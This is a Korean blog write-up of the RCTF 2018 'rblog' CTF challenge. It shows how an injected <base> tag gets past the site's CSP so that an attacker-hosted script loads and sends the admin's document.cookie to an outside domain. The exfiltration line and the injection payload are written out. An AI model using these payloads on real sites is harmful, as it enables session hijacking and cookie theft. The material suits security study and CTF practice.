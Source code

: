 ```yaml
---
title: "[RCTF2018] rblog Write up"
date: 2018-05-27
draft: false
category: [ctf]
subcategories: [2018]
tags: [Write-up, CTF, RCTF2018]
---
```


`rblog`는 `RCTF 2018`에 출제되었던 XSS 문제인데, 대회 기간에는 풀이하지 못했다가 Write-up이 올라온 후 풀어보게 되었다.
문제 정보는 아래와 같다.  

<!--more-->

```plain
get `document.cookie`
http://rblog.2018.teamrois.cn
```

### 1. 문제 분석

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![](/images/CTF/RCTF2018/rblog/rblog_01.PNG)  

제목과 내용을 적고, 스타일을 적용하거나 이미지를 업로드할 수 있는 기능이 있다.
또한 `최신 버전의 Chrome을 사용중인 admin`에게 신고할 수도 있다.
admin에게 신고할 때에는 특정 값을 입력해야 하는데, 이는 내가 업로드 한 블로그의 주소라는 것을 알 수 있다.  

![](/images/CTF/RCTF2018/rblog/rblog_02.PNG)  

![](/images/CTF/RCTF2018/rblog/rblog_03.PNG)  

### 2. 취약점 찾기

문제의 설명에서 `document.cookie`를 얻으라고 했으므로 `XSS` 문제인 것은 알 수 있다.
때문에 어떤 부분에서 XSS가 가능한지 알기 위해 `title`, `content`, `style`을 적용하는 부분에 아래와 같이 script 코드를 삽입 해 보았다.  

![](/images/CTF/RCTF2018/rblog/rblog_04.PNG)  

그 결과, `title` 부분에서 `script`가 정상적으로 삽입되는 것을 확인할 수 있었지만, 실행되지는 않았다.  

![](/images/CTF/RCTF2018/rblog/rblog_05.PNG)  

이 문제에도 역시나 `CSP`가 걸려있었다.
XSS 공격은 해야하는데, CSP가 걸려 있어서 어떻게 풀이해야 하나 싶었는데, 다른 사람들의 write-up을 보니 `Google`에서 만든 [CSP Evaluator](https://csp-evaluator.withgoogle.com/)를 통해 특정 사이트에 적용 된 CSP 정보를 확인할 수 있었다.
문제의 URL을 넣고 확인 해 보니 `base-uri`에 대한 보호가 적용되어 있지 않았다.  

![](/images/CTF/RCTF2018/rblog/rblog_06.PNG)  

즉, `<base>`라는 태그를 사용하여 소스코드 상에서 사용된 상대 경로의 기준이 될 경로를 지정할 수 있다.
만약 소스코드에서 css 파일이나 js 파일 등을 참조할 때 `./css/style.css`라는 상대 경로가 있을 경우, `<base>` 태그를 이용해 따로 경로를 설정해 주지 않는 한 `현재 페이지의 경로를 기준`으로 `style.css`를 찾아간다.

그런데 만약 `<base>` 태그를 이용 해 `<base href="http://www.test.com/">`와 같이 기준 경로를 바꾸어 줄 경우, `설정해 준 경로를 기준`으로 파일을 찾아가게 된다.
따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준다면, 문제의 소스코드 내에서 사용하는 js나 css를 내가 원하는 파일로 바꾸어 실행시킬 수 있다.

우리는 `document.cookie`를 얻어야 하므로, js 파일을 사용하는 부분을 찾아보았다.
다시 소스코드를 살펴보니 내가 업로드 한 블로그 글의 하단에서 아래와 같이 js 파일을 실행시키는 것을 확인할 수 있었다.  

![](/images/CTF/RCTF2018/rblog/rblog_07.PNG)  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준 후, 바꾼 경로에 `/assets/js/jquery.min.js` 파일을 만든다면, 내가 원하는 코드를 실행시킬 수 있게 된다.  

### 3. 문제 풀이

나는 내 서버와 도메인을 갖고 있기 때문에 내 서버를 사용했다.
내 서버에 `/assets/js/` 디렉토리 아래에 `jquery.min.js` 파일을 생성한 후, 아래와 같이 소스코드를 구현하였다.  

```js
location.href = "http://ccoma.me/?" + document.cookie;
```

이 후 title에 `<base href="http://ccoma.me/"/>` 를 넣어 글을 올린다면 기준 경로가 내 도메인이 되어 `<script nonce="af8d8b049007ffdddf9d4104295d126e" src="/assets/js/jquery.min.js"></script>`는 실제로는 `http://ccoma.me/assets/js/jquery.min/js`를 실행하게 된다.
이 때, 해당 경로에는 `location.href = "http://ccoma.me/?" + document.cookie;`가 있으므로 `document.cookie`의 값을 인자로 해 해당 도메인에 접근하게 될 것이다.  

글을 업로드 한 후에 해당 글의 경로를 admin에게 신고하면 admin이 해당 글에 접근할 것이며, 결론적으로 admin의 cookie를 인자로 해당 도메인에 다시 접근하게 된다.
먼저 아래와 같이 글을 올려 보았다.  

![](/images/CTF/RCTF2018/rblog/rblog_08.PNG)  

`jquery.min.js`에는 `location.href`가 구현되어 있기 때문에 내 서버로 리다이렉트 될 것이다.
때문에 `burp suite`를 이용 해 `Response`를 잡아 블로그 글의 주소를 캡쳐 했다.  

![](/images/CTF/RCTF2018/rblog/rblog_09.PNG)  

이 후 해당 글의 링크를 admin에게 보내주었다.  

![](/images/CTF/RCTF2018/rblog/rblog_10.PNG)  

![](/images/CTF/RCTF2018/rblog/rblog_11.PNG)  

그러면 admin이 내 서버로 접근하게 되는데, 이 때 GET 방식으로 cookie가 넘어오게 되므로 이를 확인하기 위해 `access.log`를 확인 해 보았다.  

```sh
$ tail -f /var/log/apache2/access.log
```

전송 후에 짧게는 몇 초, 길게는 2분 정도를 기다리면 아래와 같이 flag가 함께 전송된 것을 확인할 수 있다.  

![](/images/CTF/RCTF2018/rblog/rblog_12.PNG)  

```plain
FLAG : RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}
```
